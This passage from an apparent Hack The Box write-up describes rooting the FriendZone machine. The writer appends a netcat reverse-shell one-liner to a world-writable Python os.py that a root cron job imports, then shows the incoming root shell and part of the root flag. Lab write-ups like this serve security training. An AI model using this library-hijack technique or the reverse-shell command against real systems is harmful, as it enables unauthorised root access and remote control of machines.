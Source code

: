 ```
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

I can confirm it's running in a cronjob by using pspy:

![](/assets/images/htb-writeup-friendzone/pspy.png)

The script doesn't really do anything except import the standard `os` module.

Looking at the module definition, I see that the permissions are world writable on the one for Python 2.7:

```
friend@FriendZone:/opt/server_admin$ find /usr -name os.py 2>/dev/null
/usr/lib/python3.6/os.py
/usr/lib/python2.7/os.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15 22:19 /usr/lib/python2.7/os.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python3.6/os.py
-rw-r--r-- 1 root root 37526 Sep 12 21:26 /usr/lib/python3.6/os.py
```

I can modify the `os.py` file and add a reverse shell at the end so when the module is imported by the script it'll execute my reverse shell.

```
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 5555 >/tmp/f")
```

A few moments later I get a shell as root:

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 60168
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
b0e6c6...
```
